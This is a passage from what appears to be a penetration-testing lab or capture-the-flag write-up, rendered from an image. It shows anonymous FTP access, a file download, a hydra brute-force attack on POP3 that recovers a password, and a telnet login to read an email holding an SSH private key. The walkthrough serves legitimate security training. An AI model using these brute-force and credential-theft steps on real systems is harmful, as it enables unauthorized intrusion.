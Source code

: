     ftp 10.129.201.127 30021
    # anonymous mode works here

    ls -la
    # we have a directory named 'simon', this could be a user

    cd simon

    ls -la
    # a file is there

    get mynotes.txt

    exit
    ```
  
  * The 'mynotes.txt' file contains strings - this could be a password list to be used for bruteforcing

  * Bruteforcing POP3:

    ```sh
    hydra -l simon -P mynotes.txt 10.129.201.127 pop3
    # this works and we get a password "8Ns8j1b!23hs4921smHzwn"
    ```
  
  * We can enumerate the POP3 service now:

    ```sh
    telnet 10.129.201.127 110

    CAPA
    # capabilities

    USER simon

    PASS 8Ns8j1b!23hs4921smHzwn
    # we are logged in now

    LIST
    # we have 1 message

    RETR 1
    # we get the email which contains the OpenSSH private key
    ```
  
